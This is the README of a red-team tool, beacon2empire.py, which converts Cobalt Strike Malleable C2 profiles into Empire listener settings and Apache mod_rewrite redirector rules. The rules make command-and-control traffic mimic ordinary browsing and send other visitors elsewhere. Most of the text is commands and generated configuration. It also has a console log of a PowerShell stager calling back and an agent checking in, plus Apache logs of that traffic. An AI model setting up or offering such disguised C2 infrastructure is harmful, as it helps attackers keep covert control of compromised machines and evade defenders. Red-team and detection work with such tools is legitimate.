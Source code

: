 ## beacon2empire

beacon2empire.py can be used to convert Cobalt Strike Malleable C2 profiles to matching Empire listener and Apache mod_rewrite configurations. This serves two important purposes:
- Empire C2 traffic can be made to blend in with regular network traffic.  
- The conditional mod_rewrite configuration ensures that only traffic fitting the parameters of a listener is forwarded to Empire. Everything else gets forwarded elsewhere.  

### Operation
While the proxy can be run on the same server as Empire, it is both tidier and safer to run it externally.

Edit /etc/apache2/apache.conf, changing "AllowOverride None" to "AllowOverride All":
```
<Directory /var/www/>
Options Indexes FollowSymLinks
AllowOverride All
Require all granted
</Directory>
```

Enable the rewrite and proxy modules:
```
sudo a2enmod rewrite proxy proxy_http
sudo service apache2 restart
```

The script requires 4 parameters:
- **-b:** Path containing beacon C2 profiles. Nested folders are OK as the script recurses, searching for files with the extension ".profile".  
- **-e:** Empire URL, the URL that Apache proxies Empire C2 traffic to. This must be of the format:
```
<uri scheme>://<address>:<port> (e.g. http://12.34.56.789:8080)
```    
- **-p:** Proxy URL, the URL that Empire stagers connect to. This must be of the format:
```
<uri scheme>://<address>:<port> (e.g. http://12.34.56.789:8080)
```
- **-r:** Redirect URL, the URL that non-Empire requests are redirected to. This must be of the format:
```
<uri scheme>://<address> (e.g. https://www.google.com)
```

For example:
```
python3 convert.py -e http://12.34.56.789:8080 -p http://23.45.67.890:80 -r https://www.google.com -b /home/ubuntu/c2-profiles
```
- **C2 profile path:** /home/ubuntu/c2-profiles  
- **Empire public address:** 12.34.56.789 (bind address is always 0.0.0.0)  
- **Empire port:** 8080  
- **Proxy IP:** 23.45.67.890  
- **Proxy port:** 80  
- **Redirect URL:** https://www.google.com  

There are two outputs:
- The Empire listener configuration. Use this to start a listener in Empire.  
- The Apache mod_rewrite configuration. Place this in a .htaccess file in the root directory of your Apache server (e.g. /var/www/html).  

When testing, it can pay to tail your Apache access log to ensure that the listener and rewrite configurations line up. You should have 200's for successful hits and 302's for non-Empire traffic. If C2 traffic is hitting the wrong paths, has no user agent or isn't coming through at all - there has likely been an issue with the conversion. Known issues with client parameters are:
- "Connection" header can cause the User Agent not to be sent.  
- "Host" header can cause requests to hit "/" and be redirected instead of proxied.  

### Example
The following example uses a profile from: https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/magnitude.profile

The example uses the same parameters as presented above:
```
>python3 convert.py -e http://12.34.56.789:8080 -p http://23.45.67.890:80 -r https://www.google.com -b /home/ubuntu/c2-profiles/test
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Converting: /home/ubuntu/c2-profiles/test/magnitude.profile
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Empire configuration:
listeners
uselistener http
set Name magnitude
set BindIP 0.0.0.0
set Port 8080
set Host http://23.45.67.890:80
set DefaultJitter 50
set DefaultDelay 45
set DefaultProfile /themes/index.php,/work/1.php|Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)|Accept:image/jpeg, application/*|Referer:http://www.bankofbotswana.bw/|Accept-Encoding:gzip, deflate|Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8|Accept-Language:en-US;q=0.5,en;q=0.3|Content-Type:application/octet-stream
set Headers Server:Apache/2.2.17 (Ubuntu)|X-Powered-By:PHP/5.3.5-1ubuntu7.8|Content-Encoding:gzip|Content-Type:text/html
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Apache rewrite configuration:
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(themes/index.php|work/1.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 8\.0;\ Windows\ NT\ 5\.1;\ Trident/4\.0;\ \.NET\ CLR\ 2\.0\.50727;\ \.NET\ CLR\ 3\.0\.4506\.2152;\ \.NET\ CLR\ 3\.5\.30729\)?$
RewriteRule ^.*$ http://12.34.56.789:8080%{REQUEST_URI} [P]
RewriteRule ^.*$ https://www.google.com/? [L,R=302]
```

Empire console:
```
(Empire: stager/windows/launcher_bat) >
[*] Sending POWERSHELL stager (stage 1) to 23.45.67.890
[*] New agent WXPFM9V2 checked in
[+] Initial agent WXPFM9V2 from 23.45.67.890 now active (Slack)
[*] Sending agent (stage 2) to WXPFM9V2 at 23.45.67.890
```

How staging appears in the Apache log:
```
34.56.78.90 - - [20/Jun/2020:04:14:59 +0000] "GET /work/1.php HTTP/1.1" 200 6003 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:31 +0000] "POST /work/1.php HTTP/1.1" 200 532 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:33 +0000] "POST /work/1.php HTTP/1.1" 200 39216 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:35 +0000] "GET /work/1.php HTTP/1.1" 200 1542 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
```

Whereas a request from a browser is redirected:
```
34.56.78.90 - - [20/Jun/2020:04:24:37 +0000] "GET / HTTP/1.1" 302 535 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"
```

### Credit
Inspiration for this idea came from this blog post: https://thevivi.net/2017/11/03/securing-your-empire-c2-with-apache-mod_rewrite/